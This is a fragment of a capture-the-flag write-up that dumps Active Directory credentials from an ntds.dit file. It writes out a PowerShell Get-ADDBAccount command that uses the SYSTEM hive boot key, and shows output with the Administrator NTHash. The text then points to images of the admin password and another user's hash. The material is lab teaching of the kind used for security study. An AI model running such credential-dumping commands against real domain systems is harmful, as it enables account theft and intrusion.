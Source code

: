Use the following code. To extract the password for all users in DB.

```bash
PS C:\Documents4\CyberSec\JuniorCryptCTF> Get-ADDBAccount -All -DatabasePath 'C:\Documents4\CyberSec\JuniorCryptCTF\ntds.dit' -BootKey (Get-BootKey -SystemHivePath 'C:\Documents4\CyberSec\JuniorCryptCTF\SYSTEM') | more

DistinguishedName: CN=Administrator,CN=Users,DC=contoso,DC=com
Sid: S-1-5-21-1236425271-2880748467-2592687428-500
Guid: b3d02974-6b1c-484c-9103-fd2f60d592c4
SamAccountName: Administrator
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
SupportedEncryptionTypes:
AdminCount: True
Deleted: False
LastLogonDate: 18-11-2019 16:20:39
DisplayName:
GivenName:
Surname:
Description: Built-in account for administering the computer/domain
ServicePrincipalName:
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-1236425271-2880748467-2592687428-512
Secrets
  NTHash: 92937945b518814341de3f726500d4ff
```

BTW, the here’s the admin pass.

![13](./13.png)

Now, let’s find the Tilen2000 user hash.

![14](./14.png)
